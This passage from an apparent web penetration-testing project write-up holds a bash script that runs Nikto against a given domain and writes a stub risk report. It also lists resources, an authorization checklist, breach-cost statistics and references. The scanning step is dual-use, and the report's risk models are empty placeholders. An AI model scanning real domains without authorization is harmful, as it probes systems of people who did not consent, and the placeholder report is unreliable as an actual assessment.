TIMESTAMP=$(date +%Y%m%d_%H%M%S)
OUTPUT_DIR="risk_assessment_${TIMESTAMP}"

if [ $# -ne 3 ]; then
    echo "Usage: $0 <target_domain> <company_size> <industry>"
    echo "Company sizes: small, medium, large, enterprise"
    echo "Industries: financial, healthcare, retail, government, technology"
    exit 1
fi

mkdir -p "$OUTPUT_DIR"
cd "$OUTPUT_DIR"

echo "Starting comprehensive risk assessment for $TARGET_DOMAIN"
echo "Company size: $COMPANY_SIZE"
echo "Industry: $INDUSTRY"
echo "Results will be saved in: $OUTPUT_DIR"

# Phase 1: Technical Assessment
echo "Phase 1: Technical vulnerability assessment..."
nikto -h "http://$TARGET_DOMAIN" -o "nikto_scan.html" -Format htm > /dev/null 2>&1
echo "Nikto scan completed"

# Phase 2: Generate risk assessment report
cat > risk_assessment_report.py << 'EOF'
#!/usr/bin/env python3
import sys
import json
from datetime import datetime

def generate_risk_report(domain, company_size, industry):
    # Use the FAIR and churn models defined above
    # This would integrate with actual scan results
    
    report = {
        'assessment_date': datetime.now().isoformat(),
        'target': domain,
        'company_profile': {
            'size': company_size,
            'industry': industry
        },
        'risk_calculations': {
            'fair_model': {},
            'churn_impact': {},
            'regulatory_costs': {}
        }
    }
    
    # Save report
    with open('risk_assessment_report.json', 'w') as f:
        json.dump(report, f, indent=2)
    
    print(f"Risk assessment report generated for {domain}")

if __name__ == "__main__":
    generate_risk_report(sys.argv[1], sys.argv[2], sys.argv[3])
EOF

python3 risk_assessment_report.py "$TARGET_DOMAIN" "$COMPANY_SIZE" "$INDUSTRY"

echo "Risk assessment completed. Check $OUTPUT_DIR for results."
```

---

# 📚 Additional Resources and References

## Professional Development
- [OWASP Top 10 Web Application Security Risks](https://owasp.org/www-project-top-ten/) (OWASP, 2021)
- [Web Security Academy](https://portswigger.net/web-security) - Free online training
- [SANS Web Application Security Courses](https://www.sans.org/cyber-security-courses/web-app-penetration-testing-ethical-hacking/)

## Technical Documentation
- [Burp Suite Professional Documentation](https://portswigger.net/burp/documentation)
- [OWASP ZAP User Guide](https://www.zaproxy.org/docs/)
- [Nikto Web Scanner Documentation](https://cirt.net/Nikto2)

## Compliance and Standards
- [NIST Cybersecurity Framework 2.0](https://www.nist.gov/cyberframework) (NIST, 2024)
- [ISO/IEC 27001:2022 Information Security Management](https://www.iso.org/standard/27001)
- [PCI Data Security Standard v4.0](https://www.pcisecuritystandards.org/) (PCI Security Standards Council, 2022)

## ⚠️ Legal and Ethical Considerations

### Testing Authorization Requirements
- **Written Permission**: Obtain explicit written authorization before testing
- **Scope Definition**: Clearly define testing boundaries and limitations
- **Data Handling**: Establish protocols for handling discovered sensitive data
- **Reporting Timeline**: Agree on vulnerability disclosure timelines

### Professional Ethics Framework
- Maintain confidentiality of discovered vulnerabilities
- Limit data access to minimum necessary for testing
- Provide clear, actionable remediation guidance
- Follow responsible disclosure practices
- Maintain professional standards throughout engagement

### Legal Compliance Checklist
- [ ] Written authorization obtained
- [ ] Testing scope clearly defined
- [ ] Data handling procedures established
- [ ] Incident response plan prepared
- [ ] Legal counsel consulted (if required)
- [ ] Insurance coverage verified
- [ ] Compliance requirements identified

## 🏆 Project Conclusion

This penetration testing project demonstrates the critical importance of web application security in protecting business assets and customer trust. Through systematic testing of common vulnerabilities using industry-standard tools on Kali Linux, we've quantified how attackers can exploit weaknesses to achieve significant business impact.

### Key Research Findings

```
Research Outcomes and Business Impact
┌─────────────────────────────────────────────────────────────┐
│  SQL Injection (19% prevalence) ──► Database Compromise     │
│  XSS (23% prevalence) ──────────────► Session Hijacking     │  
│  Broken Auth (14% prevalence) ─────► Account Takeover       │
│                                                             │
│                All Lead To                                  │
│                     ▼                                       │
│            Average Cost: $4.88M                             │
└─────────────────────────────────────────────────────────────┘
```

### Project Impact Summary
The combination of DVWA and OWASP Juice Shop provides comprehensive coverage of both traditional and modern web application security challenges, preparing security professionals to protect against real-world threats that cost organizations an average of $4.88 million per incident.

**Evidence-Based Conclusions:**
1. Web applications remain the primary attack vector, with 75% of attacks occurring at the application layer
2. Simple vulnerabilities can lead to catastrophic business impact, with average breach costs exceeding $4.88 million
3. Regular security testing is essential, as 43% of cyberattacks target small businesses
4. Proper remediation requires both technical fixes and process improvements to address the 26% of data breaches involving web applications

By understanding these vulnerabilities and their quantified business impact, organizations can make informed, data-driven decisions about security investments and prioritize remediation efforts to protect their most valuable assets.

---

## 📖 References

Acunetix. (2024). *Web application vulnerability report 2024*. Acunetix Ltd.

CIRT. (2024). *Nikto web scanner database statistics*. Computer Incident Response Team.

Cybersecurity Ventures. (2024). *Global cybercrime costs*. Cybersecurity Ventures Research.

European Commission. (2018). *General Data Protection Regulation (GDPR)*. Official Journal of the European Union.

Gartner. (2024). *The cost of IT downtime: Survey results*. Gartner Research.

GitHub. (2024). *OWASP ZAP repository statistics*. https://github.com/zaproxy/zaproxy

HHS. (2024). *HIPAA enforcement results*. U.S. Department of Health and Human Services.

IBM Security. (2024). *Cost of a data breach report 2024*. IBM Corporation.

NIST. (2024). *Cybersecurity Framework 2.0*. National Institute of Standards and Technology.

OWASP. (2021). *OWASP Top 10 - 2021: The ten most critical web application security risks*. Open Web Application Security Project.

OWASP. (2024). *Web application security statistics*. Open Web Application Security Project.

PCI Security Standards Council. (2022). *Payment Card Industry Data Security Standard v4.0*. PCI Security Standards Council.

PCI Security Standards Council. (2024). *PCI DSS compliance guide and penalty structure*. PCI Security Standards Council.

PortSwigger. (2024). *State of web application security testing*. PortSwigger Web Security.

SEC. (2002). *Sarbanes-Oxley Act of 2002*. U.S. Securities and Exchange Commission.

Shopify. (2024). *Global e-commerce statistics report*. Shopify Inc.

Statista. (2024). *Number of internet users worldwide*. Statista GmbH.

Veracode. (2024). *State of software security report*. Veracode Inc.

Verizon. (2024). *2024 Data Breach Investigations Report*. Verizon Enterprise Solutions.

WhiteHat Security. (2023). *Application security statistics report*. WhiteHat Security Inc.
